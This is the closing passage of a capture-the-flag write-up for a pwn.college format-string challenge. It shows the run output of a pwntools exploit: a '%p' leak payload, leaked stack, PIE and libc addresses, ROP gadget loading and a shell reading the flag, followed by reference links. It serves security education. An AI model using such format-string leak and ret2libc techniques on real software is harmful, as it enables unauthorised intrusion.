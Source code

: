 ```python
io.interactive()

```


**The result:**

```css
[+] Starting local process '/host/babyfmt_level11.0_remotelibc': pid 735
/host/exploit.py:68: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  payload = flat('%184$p|%185$p|%195$p')
[+] RBP Addr      : 0x7fff0beeba90
[+] PIE Base Addr : 0x55e273855000
[+] LIBC Base Addr: 0x7f32942a2000
[+] BSS Address   : 0x55e273859020
[+] Target Address: 0x55e273859e00
[*] Loaded 19 cached gadgets for '/host/babyfmt_level11.0_remotelibc'
[*] Loaded 195 cached gadgets for '/root/.cache/.pwntools-cache-3.12/libcdb_libs/5792732f783158c66fb4f3756458ca24e46e827d/libc-2.31.so'
[*] Switching to interactive mode
Here is the result:
Your input is:                              
efy                               #                \x00                             \x97                \x14   Y                                        \x00     \x9d                              \x00                             \x00                         \x00                                                                                                    \x00     \x00              \x00                                                                             \x00                             \x00                                              \x00ccc     \         \x00ccc               _          \x80    \xf8ccc          t           \x8a                                                                                                                                \xc4         \xa0            \x00                     H    D                                  \x00                             \xa0           \x00     \x00              p         \xc1                                                                   _\x10\x9e\x85s\xe2U$  
$ 
$ cat /flag
pwn.college{01eD**********************************EzW}
```

## References

Format string exploitation tutorial
[Format String Exploitation (Shellphish)](https://shellphish.net/tut/formatstrings.pdf)

Pwntools documentation (ROP, fmtstr_payload, primitives)
[Pwntools Documentation](https://docs.pwntools.com/en/stable/)

PLT/GOT, relocations, late binding explained
[Dynamic Linking and the GOT/PLT](https://outflux.net/blog/archives/2014/01/27/fun-with-pltgot/)

ret2libc overview and calling conventions recap
[System V AMD64 ABI](https://refspecs.linuxfoundation.org/elf/x86_64-abi-0.99.pdf)

PIE & RELRO behavior and impact on exploits
[RELRO (Partial vs Full) and GOT overwrites](https://access.redhat.com/blogs/766093/posts/1975793)
